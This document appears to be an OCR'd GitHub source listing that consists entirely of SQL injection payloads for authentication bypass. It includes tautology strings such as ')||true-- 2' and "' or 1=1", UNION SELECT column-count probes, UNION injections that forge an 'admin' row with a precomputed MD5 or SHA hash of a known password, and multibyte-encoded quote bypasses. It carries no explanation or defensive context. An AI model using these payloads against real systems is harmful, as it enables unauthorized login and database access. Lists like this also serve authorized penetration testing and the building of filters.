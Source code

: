 ```
')||2=(2)LimIT(1)#
')||2=(2)LimIT(1)/*
")||2=(2)LimIT(1)-- 2
")||2=(2)LimIT(1)#
")||2=(2)LimIT(1)/*
')||true-- 2
')||true#
')||true/*
')||true||('
")||true-- 2
")||true#
")||true/*
")||true||("
')||'2'LiKE('2
')||'2'LiKE'2'-- 2
')||'2'LiKE'2'#
')||'2'LiKE'2'/*
')||'2'LiKE'2'||('
')||(2)LiKE(2)-- 2
')||(2)LiKE(2)#
')||(2)LiKE(2)/*
')||(2)LiKE(2)||('
")||"2"LiKE("2
")||"2"LiKE"2"-- 2
")||"2"LiKE"2"#
")||"2"LiKE"2"/*
")||"2"LiKE"2"||("
")||(2)LiKE(2)-- 2
")||(2)LiKE(2)#
")||(2)LiKE(2)/*
")||(2)LiKE(2)||("
' UnION SELeCT 1,2`
' UnION SELeCT 1,2,3`
' UnION SELeCT 1,2,3,4`
' UnION SELeCT 1,2,3,4,5`
" UnION SELeCT 1,2`
" UnION SELeCT 1,2,3`
" UnION SELeCT 1,2,3,4`
" UnION SELeCT 1,2,3,4,5`
' or 1=1 limit 1 -- -+
'="or'
Pass1234.
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658'#
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.')#
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61'#
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.')#
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658"#
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.")#
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61"#
Pass1234." and 1=0 union select "admin",sha("Pass1234.
Pass1234." and 1=0 union select "admin",sha("Pass1234.")#
%A8%27 Or 1=1-- 2
%8C%A8%27 Or 1=1-- 2
%bf' Or 1=1 -- 2
%A8%27 Or 1-- 2
%8C%A8%27 Or 1-- 2
```